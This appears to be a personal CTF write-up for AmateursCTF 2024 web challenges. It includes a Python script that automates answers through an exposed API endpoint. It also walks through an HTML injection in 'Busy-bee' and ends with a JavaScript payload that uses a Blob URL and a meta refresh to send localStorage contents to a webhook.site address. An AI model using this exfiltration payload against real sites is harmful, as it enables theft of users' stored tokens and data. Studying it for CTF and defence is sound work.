 ```yaml
---
date: '2025-02-05T15:19:06+07:00'
draft: false
title: 'AmateursCTF 2024'
hideSummary: true
type: "writeups"
---
```

## TL;DR
This is a writeup for some web challenge for AmateursCTF 2024
## Lahoot
This is a very fun challenge, just for trolling.
By dirsearch, we will find a hidden endpoint which is /docs.
![img1](writeups/AmateursCTF2024/image1.png)

Wow, there is /api/question/{question_id}

And the id is in the HTML itself, in the attribute data-id

![img2](writeups/AmateursCTF2024/image2.png)

I plugged 1 question id in, and get this

![img3](writeups/AmateursCTF2024/image3.png)
Finally, we can use python script to automate all of these.

```python
import requests
import re
import urllib.parse


session = requests.Session()

url = 'http://lahoot-async.amt.rs/'
r = session.post(url + 'session', data={'username': 'testtesttest18'})
our_session = session.cookies.get('session')
r = session.get(url + 'question')
print(our_session)
id = re.search(r"data-id =\s*\"([^\"]*)", r.text).group(1)
print(id)
r = requests.get(url + 'api/question/' + id)
ans = (r.json()["correctAnswer"])
for i in range(200):
    print(ans)
    r = session.post(url + 'question', data={'answer': ans})
    id = re.search(r"data-id =\s*\"([^\"]*)", r.text).group(1)
    print(id)
    r = requests.get(url + 'api/question/' + id)
    ans = (r.json()["correctAnswer"])

```

## Busy-bee
### Analysis
After looking around in index.js, I found interesting function which can change HTML.
```javascript
const putLog = (msg) => {
  const p = document.createElement("p");
  p.setHTML(msg);
  log.appendChild(p);
};
```
This function is called in a lot of place, but most of them are safe data. But there is a place where untrusted data is passed in.
```javascript
...
} else if (e.data.type === "error") {
        putLog(e.data.msg);
        res();
      }
...
```
So we will have HTML injection.
### HTML INJECTION
So how could we get that e.data.type === "error"?
In worker.js, we have this
```javascript
const tickBee = (e) => {
  try {
    const action = beeFn(e.data.world, e.data.me);
    postMessage({ type: "action", action });
  } catch (err) {
    postMessage({
      type: "error",
      msg: `<span class="text-red-500">&gt; A bee has crashed! ${err.toString()}</span>`,
    });
  }
};
```
The function beeFn() must throw an error, and the error will be parsed directly in the msg.
```javascript
throw new Error("<b>Injected</b>");
```
![img4](writeups/AmateursCTF2024/image4.png)
### setHTML()
Can we inject script tag? Sadly no, anything XSS will be filtered by setHTML(). Is this a dead end?
### Blob
After the CTF ended, in discord, someone said that he solved this by using meta tag and Blob. Blob?
The Blob object represents a blob, which is a file-like object of immutable, raw data.
Combining with URL.createObjectURL(), we can “host a simple server”.

And blob URL doesn't have different origin. That's why we can access the window.localStorage.
So by using Blob, we can create a javascript script to make a fetch to our webhook, and retrieve the flag.

Luckily, meta tag isn't blocked at all, so we can use meta tag to redirect to our blob URL.

```html
<meta http-equiv="refresh" content="0;url=???">
```
Combine everthing, we have:
```javascript
const  htmlcontent = `<script>
    fetch('https://webhook.site/e6ac0f5c-05bb-4b0d-ad0b-0a5595a40691?c=' + window.localStorage.getItem('flag'), {
        method: 'GET',
        mode: 'no-cors'
    });
</script>`;
const blob = new Blob([htmlcontent], { type: 'text/html' });
const blobURL = URL.createObjectURL(blob);
throw new Error('<meta http-equiv="refresh" content="0; url='+blobURL+'">');
```
